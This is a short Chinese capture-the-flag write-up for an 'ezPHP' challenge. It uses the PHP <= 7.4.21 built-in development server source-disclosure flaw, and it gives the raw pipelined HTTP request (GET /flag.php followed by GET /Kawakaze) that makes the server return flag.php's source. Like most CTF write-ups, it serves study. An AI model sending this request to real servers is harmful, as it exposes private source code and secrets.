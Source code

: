 ### ezPHP

网站扫描扫到了：flag.php、hint.php

参考这篇文章

- [php＜= 7 . 4 . 21 development server源码泄露漏洞复现 - 凪白Kw - 博客园 (cnblogs.com)](https://www.cnblogs.com/Kawakaze777/p/17799235.html)

关掉burp的`Update Content-Length`

![](./images/image-8.png)

```
GET /flag.php HTTP/1.1
Host: challenge.wucup.cn:48919

GET /Kawakaze HTTP/1.1
```

得到flag.php的源码
